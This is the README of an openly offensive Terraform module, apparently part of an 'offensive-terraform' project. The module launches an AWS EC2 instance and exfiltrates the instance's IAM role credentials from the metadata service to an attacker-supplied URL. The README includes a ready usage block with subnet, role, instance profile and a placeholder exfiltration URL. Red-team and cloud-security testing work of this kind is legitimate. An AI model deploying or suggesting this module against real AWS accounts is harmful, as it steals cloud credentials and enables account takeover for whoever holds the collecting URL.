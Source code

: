 # AWS EC2 Instance Credential Exfiltration Module

![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-purple)
![OffensiveTerraform](https://img.shields.io/badge/hack-green)


Offensive Terraform module which creates EC2 instance and exfiltrate credential from Instance metadata to external URL.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-ec2-instance-credential-exfiltration/master/diagram.jpg)

## Usage
```
module "ec2_instance_credential_exfiltration" {
    source  = "offensive-terraform/ec2-instance-credential-exfiltration/aws"

    subnet_id = "subnet-0a4a1cc04"
    url = "http://0.0.0.0/"
    iam_role= "ec2-instance-role"
    iam_instance_profile = "ec2-instance-profile"
}
```
## Author
Module managed by https://github.com/iganbold